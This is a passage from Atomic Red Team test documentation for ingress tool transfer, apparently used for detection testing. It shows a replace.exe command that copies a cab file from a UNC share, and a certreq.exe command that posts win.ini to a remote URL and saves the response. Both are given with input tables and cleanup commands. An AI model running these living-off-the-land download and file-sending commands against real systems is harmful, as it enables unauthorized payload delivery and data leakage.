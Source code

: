 **auto_generated_guid:** ed0335ac-0354-400c-8148-f6151d20035a





#### Inputs:
| Name | Description | Type | Default Value |
|------|-------------|------|---------------|
| replace_cab | UNC Path to the cab file | path | &#92;&#92;127.0.0.1&#92;c$&#92;AtomicRedTeam&#92;atomics&#92;T1105&#92;src&#92;redcanary.cab|
| Path_replace | Path to replace.exe | path | C:&#92;Windows&#92;System32&#92;replace.exe|


#### Attack Commands: Run with `command_prompt`! 


```cmd
del %TEMP%\redcanary.cab >nul 2>&1
#{Path_replace} #{replace_cab} %TEMP% /A
```

#### Cleanup Commands:
```cmd
del %TEMP%\redcanary.cab >nul 2>&1
```





<br/>
<br/>

## Atomic Test #25 - certreq download
Use certreq to download a file from the web

**Supported Platforms:** Windows


**auto_generated_guid:** 6fdaae87-c05b-42f8-842e-991a74e8376b





#### Inputs:
| Name | Description | Type | Default Value |
|------|-------------|------|---------------|
| local_path | Local path to place file | string | %temp%&#92;Atomic-license.txt|
| remote_file | URL of file to copy | url | https://example.com|


#### Attack Commands: Run with `command_prompt`! 


```cmd
certreq.exe -Post -config #{remote_file} c:\windows\win.ini #{local_path}
```

#### Cleanup Commands:
```cmd
del #{local_path} >nul 2>&1
```
